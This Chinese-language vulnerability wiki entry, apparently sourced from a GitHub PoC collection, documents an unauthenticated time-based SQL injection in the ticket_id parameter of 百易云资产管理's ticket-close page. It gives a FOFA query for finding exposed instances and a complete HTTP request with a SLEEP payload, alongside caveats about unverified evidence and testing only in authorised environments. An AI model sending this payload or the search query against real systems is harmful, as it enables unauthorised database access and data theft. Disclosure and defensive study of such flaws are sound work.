

# 百易云资产管理 ticket.close ticket_id SQL 注入

## 条目说明

- 对象与具体问题：百易云资产管理；ticket.close ticket_id SQLi
- 版本、配置及部署条件：MySQL SLEEP；版本未知
- 认证与权限前提：声明匿名无Cookie
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 关闭工单路由可能改变业务状态，需副作用说明
- 只有延时请求与未视检图，缺基线和CVE/版本官方证据
- 补明确补丁

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

## 漏洞描述

百易云资产管理系统的界面中存在一个基于时间的 SQL 盲注漏洞。攻击者可以通过构造恶意参数来利用此漏洞，利用该函数诱发数据库作延迟、绕过安全机制以及提取敏感数据（如数据库名称和表结构）。此漏洞无需身份验证即可被利用，并影响多个资产实例。

## 影响版本

百易云资产管理系统

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="不要着急，点此"

POC/EXP：

```http
GET /wuser/admin.ticket.close.php?ticket_id=1%20AND%20(SELECT%206941%20FROM%20(SELECT(SLEEP(5)))OKTO) HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```





## 漏洞修复

关注厂商官网动态，及时更新补丁信息。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
